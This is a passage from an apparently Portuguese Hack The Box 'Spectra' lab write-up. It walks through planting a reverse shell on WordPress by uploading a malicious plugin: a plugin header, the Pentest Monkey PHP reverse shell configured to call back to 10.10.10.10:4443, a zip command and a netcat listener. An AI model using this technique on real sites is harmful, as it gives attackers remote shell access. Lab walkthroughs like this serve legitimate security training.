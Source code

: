 Então, para criar este plugin, precisamos realizar os seguintes passos:

- Criar um arquivo com o header do plugin. Este header tem que obedecer aos requisitos mínimos conforme documentado em [Header Requirements \| Plugin Developer Handbook \| WordPress Developer Resources](https://developer.wordpress.org/plugins/plugin-basics/header-requirements/). No nosso caso criei o arquivo `evilplugin.php` com o conteúdo listado abaixo.

  ```php
  /**
   * Plugin Name: evilplugin
   * Version: 1.0
   * Author: evilauthor
   * Author URI: http://evilplugin.test.com
   * License: GPL2
   */
  ```

- Criar outro arquivo com o payload desejado. Neste caso como o objetivo é um shell reverso, fiz uma cópia do [php reverse shell do Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), alterei os detalhes deste e salvei como `exploit.php`. Abaixo evidencio o trecho do script que necessita alteração.

  ```php
  // Usage
  // -----
  // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '10.10.10.10';  // CHANGE THIS
  $port = 4443;       // CHANGE THIS
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;
  ```

- Compactar arquivo conforme abaixo

  ```bash
  $ zip evilplugin.zip evilplugin.php exploit.php
    adding: evilplugin.php (deflated 9%)
    adding: exploit.php (deflated 59%)
  ```
  
- Uma vez criado o arquivo, acessar o portal do WordPress, autenticar com a conta administrativa e acessar, ao lado esquerdo, o menu *Plugins* > *Add New* e, no topo, clicar no botão *Upload Plugin*

![HTB Spectra - Upload evilplugin.zip](https://i.imgur.com/UlBkZNE.png){: .align-center}

- Inicializar o listener de acordo com o payload configurado. No nosso caso vamos iniciar o  netcat conforme linha de comando abaixo

  ```bash
  nc -lnvp 4443
  ```
